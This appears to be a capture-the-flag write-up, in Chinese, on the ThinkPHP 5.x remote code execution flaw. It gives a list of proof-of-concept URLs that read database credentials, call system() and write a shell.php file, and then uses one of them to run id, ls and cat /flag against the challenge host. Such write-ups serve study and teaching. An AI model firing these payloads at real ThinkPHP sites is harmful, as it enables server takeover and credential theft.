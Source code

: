 # php_rce

题目提示 PHP V5 版本，可能暗示存在 RCE 远程代码执行漏洞。

# :)

ThinkPHP V5

十年磨一剑 - 为API开发设计的高性能框架

---

## PHP RCE漏洞

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。影响范围：5.x < 5.1.31, <= 5.0.23。在修复之前程序未对控制器进行过滤，导致攻击者可以通过引入\符号来调用任意类方法。

### POC

 Thinkphp5.0.22

```php
1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

  Thinkphp 5

```php
1、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
```

  Thinkphp5.1

```php
1、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
2、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd
3、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
4、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
5、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
6、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
7、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
8、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
```

---

尝试

```php
/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
```

得到

# 页面错误！请稍后再试～

[ThinkPHP](http://www.thinkphp.cn/) V5.0.20 { 十年磨一剑-为API开发设计的高性能框架 }



继续尝试

```php
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

得到

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

继续尝试

```php
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls
```

得到

```bash
bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var
```

找到 flag 继续尝试

```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat /flag
```

### flag

flag{thinkphp5_rce} flag{thinkphp5_rce}